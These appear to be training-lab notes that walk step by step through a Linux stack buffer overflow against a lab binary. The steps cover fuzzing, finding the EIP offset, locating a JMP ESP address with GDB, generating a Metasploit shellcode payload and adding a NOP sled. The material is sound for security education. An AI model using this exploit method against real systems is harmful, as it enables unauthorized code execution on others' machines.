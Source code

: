     **GDB Uses**
        disass <FUNCTION>   #   Disassemble portion of the program
        info <...>  #   Supply info for specific stack areas
        x/256c $<REGISTER>  #   Read characters from specific register
        break <address>  #   Establish a break point

## Web Exploitation Demo

    1. ensure its saved in /home/student
    2. chmod u+x it
    3. run file on it, run strings on it
    4. ./func (or whatever its name is) to run it
    5. ./func $(echo "sdflkjsdflkjsdfflksjdflksjdf") see if it takes arguments
    6. ./func <<<$(echo "sdflkjsdflkjsdfflksjdflksjdf") Takes the output of the echo command and redirects it as input into the executable.
    7. enter a lot more characters to see if we get something
    8. create python script (lin_buf.py)
        #!/usr/bin/env python
        buffer = "A" * 40 
        print(buffer)
        
    9. ./func <<<$(./lin_buf.py)
    10. increase chars in script until segmentation fault
    11. then run 'gdb ./func'
    12. run - allows you to run it the exe in gdb. info functions - shows you functions in the program. disass main - to see main function. pdisass main (to see it more better)
    13. in gdb -> run <<<$(./lin_buf.py)
    https://wiremask.eu/tools/buffer-overflow-pattern-generator/
    14. copy the value in wiremask, do run<<<$(echo "value")
    15. copy the value in the instruction pointer.
    16. go back to wiremask, paste that offset in the register value. (this should tell you the amount of characters you need to send in the script)
    17. note the offset value, go back into script and change your buffer to that number.
    18. create eip in your script -> eip = "B" * 4 -> print(buffer+eip)
    19 in gdp -> run <<<$(./lin_buf.py)
    20. quit out of GDB. reenter gdb with 'env - gdb ./func' -> then show env -> need to get rid of these environmental variables. run 'unset env COLUMNS / LINES'
    21. run the executable again to get it to crash in order to figure out locations of ESP / or run normally and interupt with ctrl c
    22. enter a bunch of stuff 
    23. then run 'info proc map' shows processes memory mapping. location of heap/stack/text of executable
    24. the start is the startaddr right below the heap. the end is the end addr of the stack.
    25. then in gdb run 'find /b 0xf7de1000 0xffffe000, 0xff, 0xe4'
    0xff = hex for jump, 0xe4 is hex for esp
    26. copy and paste a couple of those into the python script.
    27. put em in little endian ex: 0xf7de3b59 -> "\x59\x3b\xde\f7" -> save that
    28. open new console -> msfdb init (to initialize metasploit) -> msfconsole to run
    29. use payload/linux/x86/exec -> show options
    30. set CMD whoami && ifconfig -> show options again (just to verify if it works)
    31. generate -b '\x00\' -f python (this generates byte code) 
    32. copy the byte code -> paste it all into your python script
    33. add a no op sled to your python script 'nop = "\x90" * 10'
    34. change eip to the little endian of your first stack location.
    35. change print statement to include nop and buf
    36. then go to linops terminal and run -> ./func <<<$(./lin_buf.py)

